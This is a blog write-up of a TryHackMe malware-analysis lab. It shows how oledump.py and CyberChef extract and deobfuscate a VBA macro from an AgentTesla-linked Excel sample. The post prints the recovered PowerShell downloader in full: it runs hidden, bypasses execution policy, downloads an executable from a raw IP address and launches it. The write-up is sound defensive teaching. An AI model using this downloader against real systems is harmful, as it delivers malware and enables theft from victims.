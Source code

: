 ```yaml
---
title: "TryHackMe: REMnux Getting Started - Task 3 File Analysis"
author: Dustin Merritt
categories: [TryHackMe]
tags: [remnux, oledump, malware, vba, static analysis, cyberchef]
render_with_liquid: false
media_subpath: /images/tryhackme_remuxgettingstarted/
image:
  path: room_image.webp
---
```


In this TryHackMe room, we used **REMnux** to analyze a suspicious Excel document named `agenttesla.xlsm`. We leveraged the `oledump.py` tool to extract and examine embedded macros, then used **CyberChef** to clean and interpret an obfuscated PowerShell payload. This exercise demonstrated a realistic scenario where VBA macros are used to drop malware onto a target system.

[TryHackMe Room: REMnux Getting Started](https://tryhackme.com/room/remnuxgettingstarted)


## Initial Setup

We started by opening the **REMnux VM** and navigating to the provided file path:

```bash
cd /home/ubuntu/Desktop/tasks/agenttesla/
```

Running `oledump.py` on `agenttesla.xlsm` revealed several streams, notably:

```bash
oledump.py agenttesla.xlsm
```

Output:
```
A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
```

The stream labeled `A4` contains a **macro** (`M` flag), suggesting potential malicious behavior.

## Macro Extraction

We extracted the contents of the macro using:

```bash
oledump.py agenttesla.xlsm -s 4
```

This provided raw hex output, but it was difficult to interpret. To decode the VBA macro, we added the `--vbadecompress` flag:

```bash
oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

The output revealed a familiar PowerShell obfuscation pattern using `*` and `^` as noise characters:

```vb
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* ... -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" ..."
```

## PowerShell Deobfuscation with CyberChef

To make the PowerShell command human-readable, we used **CyberChef**:

- Apply two **Find/Replace** operations:
  - Replace `*` with an empty string
  - Replace `^` with an empty string

> 🔽 **Insert screenshot of CyberChef here showing the Find/Replace steps and the cleaned PowerShell script**

Once cleaned, the PowerShell command was clearly a downloader:

```powershell
powershell -WindowStyle hidden -executionpolicy bypass;
$TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } PassThru;
Invoke-WebRequest -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" -OutFile $TempFile;
Start-Process $TempFile;
```

## What Does This Do?

- **Hidden Window**: Avoid user suspicion
- **Bypass Execution Policy**: Allow running potentially blocked scripts
- **Download EXE**: Grab `Doc-3737122pdf.exe` from a suspicious IP
- **Execute**: Run the file on the target machine

This macro behavior is a classic example of **initial access malware delivery**, likely a variant of **AgentTesla**, a popular information stealer.

## Bonus: Analyzing `possible_malicious.docx`

We applied the same technique to `possible_malicious.docx`:

```bash
oledump.py possible_malicious.docx
```

Output:
```
... 16 data streams ...
... macro present at stream 8 ...
```

Another suspicious macro! These steps could easily be repeated to investigate further.

## Wrap-Up

This TryHackMe challenge was a practical introduction to static malware analysis using REMnux. Tools like `oledump.py` and CyberChef make reverse-engineering obfuscated macros more accessible. Remember, even Excel files can be trojan horses — always analyze before opening!

## Key Takeaways

- **Tool used**: `oledump.py`
- **Macro identified in stream**: `A4`
- **PowerShell function for downloading files**: `Invoke-WebRequest`
- **Downloaded file name**: `Doc-3737122pdf.exe`
- **Downloaded location**: `$TempFile`

---

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>